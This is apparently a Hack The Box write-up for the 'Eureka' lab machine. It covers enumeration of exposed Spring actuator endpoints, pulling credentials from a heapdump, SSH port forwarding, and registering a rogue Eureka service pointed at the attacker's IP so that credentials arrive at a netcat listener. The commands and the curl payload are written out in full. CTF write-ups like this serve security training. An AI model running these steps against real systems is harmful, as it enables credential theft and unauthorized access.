 # Eureka HTB Writeup 

**Difficulty:** Hard\
**OS:** Linux\

------------------------------------------------------------------------

## Reconnaissance

First, set the target IP as an environment variable for convenience:

``` bash
export IP='10.10.11.66'
```

Run a full TCP scan with service and version detection:

``` bash
nmap -v -sCTV -p- -T4 -Pn -oN $IP.txt $IP
```

**Nmap Results:**

    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12
    80/tcp   open  http    nginx 1.18.0 (Ubuntu)
    8761/tcp open  http    Apache Tomcat (language: en)

Port **80** redirects to `http://furni.htb/`, so we add it to
`/etc/hosts`:

``` bash
echo "$IP furni.htb" | sudo tee -a /etc/hosts
```

------------------------------------------------------------------------

## Web Enumeration

Brute-force directories on the web server with `dirsearch`:

``` bash
dirsearch -u http://furni.htb/ -e php,html,txt -t 50
```

**Discovered Endpoints:**

    /actuator/env
    /actuator/features
    /actuator/health
    /actuator/info
    /actuator/metrics
    /actuator/configprops
    /actuator/beans
    /actuator/threaddump
    /actuator/loggers
    /actuator/mappings
    /actuator/heapdump   ←  Interesting!

------------------------------------------------------------------------

## Heapdump Extraction

Download the heapdump:

    http://furni.htb/actuator/heapdump

Analyze with `strings`:

``` bash
strings heapdump | grep "password="
```

**Credentials Found:**

    {password=********, user=********}

Another one found with:

``` bash
strings heapdump | grep PWD
```

    http://EurekaSrvr:**************@localhost:8761/eureka

------------------------------------------------------------------------

## Initial Foothold

Login via SSH with the extracted credentials:

``` bash
ssh user@10.10.11.66
Password: ********
```

We now have access as a low-privileged user.

------------------------------------------------------------------------

## Port Forwarding

Since port `8761` is local, forward it to our machine:

``` bash
ssh -L 8761:localhost:8761 user@10.10.11.66
```

Now access the Eureka admin panel:

    http://localhost:8761

------------------------------------------------------------------------

## Exploiting Eureka with Malicious Registration

Set up a netcat listener to catch incoming connections:

``` bash
nc -lvnp 8081
```

Register a **malicious service** with the stolen credentials:

``` bash
curl -X POST http://USERNAME:PASSWORD@127.0.0.1:8761/eureka/apps/USER-MANAGEMENT-SERVICE   -H 'Content-Type: application/json'   -d '{
  "instance": {
    "instanceId": "USER-MANAGEMENT-SERVICE",
    "hostName": "YOURIP",
    "app": "USER-MANAGEMENT-SERVICE",
    "ipAddr": "YOURIP",
    "vipAddress": "USER-MANAGEMENT-SERVICE",
    "secureVipAddress": "USER-MANAGEMENT-SERVICE",
    "status": "UP",
    "port": { "$": 8081, "@enabled": "true" },
    "dataCenterInfo": {
      "@class": "com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo",
      "name": "MyOwn"
    }
  }
}'
```

Replace **USERNAME**, **PASSWORD**, and **YOURIP** (your `tun0` IP).

After \~2 minutes, new credentials arrive via netcat:

    Username: ********
    Password: ********

------------------------------------------------------------------------

## Privilege Escalation

Login with the new user:

``` bash
ssh newuser@10.10.11.66
Password: ********
```

Now we have higher privileges. Retrieve the user flag:

``` bash
cat ~/user.txt
```

------------------------------------------------------------------------

## 🏁 Summary

-    Found hidden endpoints with Dirsearch\
-    Extracted credentials from heapdump\
-    Accessed Eureka dashboard via port forwarding\
-    Exploited service registration to gain credentials\
-    Escalated privileges and obtained user flag

------------------------------------------------------------------------

